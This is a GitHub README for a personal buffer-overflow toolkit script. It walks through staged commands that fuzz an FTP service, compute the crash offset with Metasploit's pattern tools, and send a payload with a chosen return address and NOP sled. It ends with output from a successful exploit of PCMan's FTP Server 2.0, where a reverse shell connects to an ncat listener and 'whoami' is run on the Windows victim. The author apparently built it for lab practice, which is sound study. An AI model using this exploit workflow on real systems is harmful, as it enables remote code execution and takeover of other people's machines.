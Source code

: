 # BufferOverflowToolkit
just some general purpose tools to help myself when detecting and performing buffer overflows

Ignore the code it's just PoC right now.

https://youtu.be/ljxVBLHIyWk

### Throw 200 bytes of data at the socket until it crashes, examine crash point -- stage 1
```
➜  ./bof.py --ip 192.168.1.236 --port 21 --bytes 200 --stage 1
```

### Use Metasploit-Framework's pattern_create tool automagically. -- stage 2
```
➜  ./bof.py --ip 192.168.1.236 --port 21 --bytes 2400 --stage 2
```

### Helper function to return the exact offset via pattern_offset from the instruction pointer -- stage 3
```
➜  ./bof.py --address 7043396F --stage 3
```

### Hunt your bad characters -- stage 4
TODO

### Blast your socket and get a connection back -- stage 5

```bash
➜  ./bof.py --ip 192.168.1.236 --port 21 --bytes 2008 --address 77F1E871 --nops 15 --stage 5
```

### End Result
```bash
[*] Connecting to 192.168.1.236...
[x] Connected to 220 PCMan's FTP Server 2.0 Ready.

[*] Sending payload...
[x] Payload delivered
[*] Waiting for target to connect
Ncat: Version 7.40 ( https://nmap.org/ncat )
Ncat: Listening on :::54321
Ncat: Listening on 0.0.0.0:54321
Ncat: Connection from 192.168.1.236.
Ncat: Connection from 192.168.1.236:50121.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\donthackmebro\Downloads>whoami
whoami
win-t72rd5qv7hv\donthackmebro
```
